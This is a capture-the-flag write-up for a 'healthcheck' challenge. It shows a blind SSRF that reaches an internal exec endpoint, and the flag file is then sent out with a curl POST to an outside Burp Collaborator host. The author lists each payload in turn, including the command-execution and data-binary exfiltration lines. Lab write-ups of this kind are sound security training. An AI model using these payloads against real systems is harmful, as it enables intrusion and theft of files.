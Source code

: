 # healthcheck

I left my hopes_and_dreams on the server. can you help fetch it for me?

[http://104.214.185.119/index.php](http://104.214.185.119/index.php)

**This website allows users to check the HTTP status code of any URL they enter.**

You just type in a link like http://example.com and the site tells you whether that page is reachable by returning a status code like 200 OK (success) or 404 Not Found. It 
does not show the page content just the status code.

**Payload**:

url = [http://104.214.185.119/index.php](http://104.214.185.119/index.php)

![image.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/548e99e2-3e15-40a5-9041-6af3f8097bcd.png)

The server responded with a 200 status code, indicating it successfully fetched the page. I noticed the server only returned the status code and not the response body, suggesting this might be a Blind SSRF (Server-Side Request Forgery) challenge. That meant I couldn't directly view internal resources like the flag.

**Payload**:

`url=http://localhost`

This returned a 403 Forbidden response, implying that direct access to localhost was blocked.

**Payload**:

`url=http://127.0.0.1`

This also returned a 403, confirming that both hostname and IP-based access to internal services were restricted. I suspected basic SSRF protections were in place and started looking for bypasses using internal hostnames.

![image.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/171364cd-b354-4967-9be0-4ec824c193c9.png)

Since localhost was blocked, I might be that the server is using internal hostnames that weren’t restricted. A common internal service name like healthcheck seemed worth testing.

**Payload**:

`url=http://healthcheck/hopes_and_dreams`

![image.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/image.png)

This was a good discovery. The server returned 200, meaning healthcheck was a valid internal hostname and /hopes_and_dreams was an accessible endpoint or file. This could potentially contain the flag, but since this is a blind SSRF, I couldn’t view the contents directly.

To confirm the SSRF vulnerability, I injected a Burp Collaborator payload:

![Screenshot 2025-04-14 140954.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/Screenshot_2025-04-14_140954.png)

The application made an HTTP request to my Collaborator domain confirming it was vulnerable to **Blind SSRF**.

![image.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/image%201.png)

### Attempting Parameter-Based Exfiltration

Next, I tried appending parameters to trick /hopes_and_dreams into making outbound requests with 

payloads:

`url=http://healthcheck/hopes_and_dreams?callback=z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

`url=http://healthcheck/hopes_and_dreams?webhook=z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

No interactions were observed in Burp Collaborator. This implied /hopes_and_dreams was likely a static file or an endpoint that ignored URL parameters.

### Discovering the exec Endpoint

Realizing hopes_and_dreams alone wasn’t enough, I try to find other internal endpoints that might allow command execution or file access. An exec endpoint seemed likely for running commands.

**Payload**:

`url=http://healthcheck/exec?cmd=curl+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

Burp Collaborator received a GET request to /test.

The exec endpoint executed my curl command and made an outbound request to my Collaborator URL. This confirmed I could run arbitrary commands and use them to interact with the system and exfiltrate data. My next task was to use this to read hopes_and_dreams.

I tried to read the file using shell substitution:

**Payload**:

`url=http://healthcheck/exec?cmd=curl+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com/$(cat+hopes_and_dreams)`

Burp Collaborator received a request to /cat, not the file contents.

Result: Only /cat was fetched.
Conclusion: Shell substitution wasn’t supported—commands weren’t run in a full shell.

I adjusted my approach to use curl data-binary option, which sends a file’s contents in the request body, avoiding the need for shell substitution.

**Payload**:

`url=http://healthcheck/exec?cmd=curl+-X+POST+--data-binary+@hopes_and_dreams+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

Burp Collaborator received a POST request with the contents of hopes_and_dreams in the body, revealing the flag!

![image.png](healthcheck%201d48e29fdec780bb8d37e6442a819f8a/7d5028fa-631d-4a6e-86d2-df8852f34528.png)

### Why It Worked?

- The SSRF allowed me to reach internal services like healthcheck/exec.
- The exec endpoint ran arbitrary commands.
- curl read the file and sent it in a POST request to my external server.
- This avoided shell substitution issues and allowed full exfiltration of the file.